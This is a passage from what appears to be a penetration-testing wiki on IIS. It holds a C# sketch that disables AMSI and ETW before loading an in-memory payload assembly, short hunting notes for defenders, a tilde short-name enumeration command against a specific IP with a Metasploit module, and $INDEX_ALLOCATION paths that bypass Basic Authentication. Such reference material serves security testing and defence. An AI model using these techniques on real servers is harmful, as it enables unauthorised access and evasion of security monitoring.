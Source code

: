 Inline AMSI/ETW disable before Assembly.Load (loader variant)
```csharp
// Patch amsi!AmsiScanBuffer to return E_INVALIDARG
// and ntdll!EtwEventWrite to a stub; then load operator assembly
DisableAmsi();
DisableEtw();
Assembly.Load(payloadBytes).EntryPoint.Invoke(null, new object[]{ new string[]{ /* args */ } });
```
See AMSI/ETW bypass techniques in: windows-hardening/av-bypass.md

Hunting notes (defenders)
- Single, odd ASPX page with very long Base64/Gzip blobs; cookie‑heavy posts.
- Unbacked managed modules inside w3wp.exe; strings like Encrypt/Decrypt (ECB), Compress/Decompress, GetContext, Run.
- Repeated delimiters like "STAR" in traffic; mismatched or even future timestamps on ASPX/assemblies.

## Old IIS vulnerabilities worth looking for

### Microsoft IIS tilde character “\~” Vulnerability/Feature – Short File/Folder Name Disclosure

You can try to **enumerate folders and files** inside every discovered folder (even if it's requiring Basic Authentication) using this **technique**.\
The main limitation of this technique if the server is vulnerable is that **it can only find up to the first 6 letters of the name of each file/folder and the first 3 letters of the extension** of the files.

You can use [https://github.com/irsdl/IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner) to test for this vulnerability:`java -jar iis_shortname_scanner.jar 2 20 http://10.13.38.11/dev/dca66d38fd916317687e1390a420c3fc/db/`

![[../../images/image (844).png]]

Original research: [https://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf](https://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf)

You can also use **metasploit**: `use scanner/http/iis_shortname_scanner`

A nice idea to **find the final name** of the discovered files is to **ask LLMs** for options like it's done in the script [https://github.com/Invicti-Security/brainstorm/blob/main/fuzzer_shortname.py](https://github.com/Invicti-Security/brainstorm/blob/main/fuzzer_shortname.py)

### Basic Authentication bypass

**Bypass** a basic authentication (**IIS 7.5**) trying to access: `/admin:$i30:$INDEX_ALLOCATION/admin.php` or `/admin::$INDEX_ALLOCATION/admin.php`

You can try to **mix** this **vulnerability** and the last one to find new **folders** and **bypass** the authentication.

## ASP.NET Trace.AXD enabled debugging
